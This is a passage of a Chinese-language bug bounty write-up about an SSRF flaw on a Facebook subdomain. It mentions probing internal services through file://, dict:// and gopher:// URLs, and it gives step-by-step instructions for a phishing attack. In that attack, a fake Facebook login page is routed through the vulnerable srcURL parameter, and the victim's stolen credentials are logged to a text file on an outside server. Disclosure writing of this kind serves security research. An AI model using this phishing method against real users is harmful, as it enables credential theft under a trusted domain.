通过这种观察，我们可以枚举防火墙环境背后的内部基础设施。我很快向 Facebook 报告了我的发现，但被拒绝了，因为他们认为这不是安全漏洞。观察以下响应：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101214.png)

  

#  **深入挖掘  **

 **  
**

我必须拿出证据。我尝试使用 URL 架构（如 file://、dict://、ftp://、gopher://
等）读取内部信息。还尝试获取云实例的元数据但没有成功。

一段时间后，我终于想出了一些有影响力的例子。以下是我发送给 Facebook 的一些实时攻击场景以及重现步骤：

## 1\. 反射型跨站脚本（XSS）：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101215.png)

## 2.借助SSRF的钓鱼攻击：

步骤 1.创建并托管一个 Facebook 登录的钓鱼页面，窃取受害者的 Facebook 登录凭据，看起来像一个合法的登录门户。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101216.png)

我将它托管在私人服务器上，即http://ahmedabadexpress.co.in/

步骤 2.从 Web 浏览器打开“ https://tinyurl.com/ ”，创建一个托管钓鱼页面的小 URL，即“
http://ahmedabadexpress.co.in/fb/login/fb.html ”。复制创建的小 URL。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101217.png)

步骤 3.在以下 URL 的“srcURL”参数中插入复制的“tiny URL”并发送给受害者：  

  * 

    
    
    https ://m-nexus.thefacebook.com/servlet/taskProc?taskId=shortURL&taskEnv=xml&taskContentType=json&srcURL={YOUR_TINY_URL_HERE }

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101219.png)

一旦受害者在此页面上输入他/她的用户名和密码，它就会被保存到“ http:
//ahmedabadexpress.co.in/fb/login/usernames.txt ”文件中。受害者将被重定向到真实的 Facebook
登录页面。你可以看到主机名是字符串“m-nexus.thefacebook.com”所以它看起来是合法的。

步骤 4.

导航到http://ahmedab adexpress.co.in/fb/login/usernames.txt

URL 并观察被盗凭证。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301101221.png)
